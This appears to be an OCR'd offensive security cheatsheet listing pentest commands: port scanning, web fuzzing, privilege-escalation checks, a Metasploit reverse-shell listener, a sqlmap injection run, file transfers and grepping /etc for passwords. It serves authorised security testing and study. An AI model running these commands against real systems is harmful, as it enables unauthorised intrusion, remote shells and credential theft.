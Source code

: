 # Offensive Security Cheatsheet 🚀

*"Knowledge is power. Share it wisely." - Unknown*

## 🔍 Scanning & Enumeration

### Nmap

```# Basic TCP scan
nmap -sV -sC -oA scan_results <TARGET_IP>


Masscan

```# Blazing fast scan
masscan -p1-65535 <TARGET_IP> --rate=1000 -e tun0```


🕵️‍♂️ Web Enumeration

FFUF (Web Fuzzing)

```# Directory brute-forcing
ffuf -w /path/to/wordlist -u http://<TARGET>/FUZZ -mc 200 -fs 4242```

```# Vhost discovery
ffuf -w subdomains.txt -u http://<TARGET> -H "Host: FUZZ.<TARGET>" -fs 0```

Gobuster

```gobuster dir -u http://<TARGET> -w /usr/share/wordlists/dirb/common.txt -x php,html```


🔑 Privilege Escalation
Linux PrivEsc

bash
```# SUID finder
find / -perm -4000 -type f 2>/dev/null```

```# Kernel exploits
uname -a; searchsploit <kernel_version>```

Windows PrivEsc

powershell
```# Service permissions
accesschk.exe /accepteula -uwcqv *```

```# AlwaysInstallElevated check
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated```


🛠️ Exploitation


Metasploit

```# Basic workflow
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <YOUR_IP>
exploit```

SQL Injection

```sqlmap -u "http://site.com/page?id=1" --risk=3 --level=5 --batch```


📦 Post-Exploitation

File Transfers

```# Python HTTP server
python3 -m http.server 8000```

```# SCP download
scp user@target:/path/to/file .```

Credential Hunting

```# Find passwords in files
grep -riE 'password|passwd|cred' /etc/ 2>/dev/null```


📚 Resources

GTFOBins

PayloadsAllTheThings

HackTricks
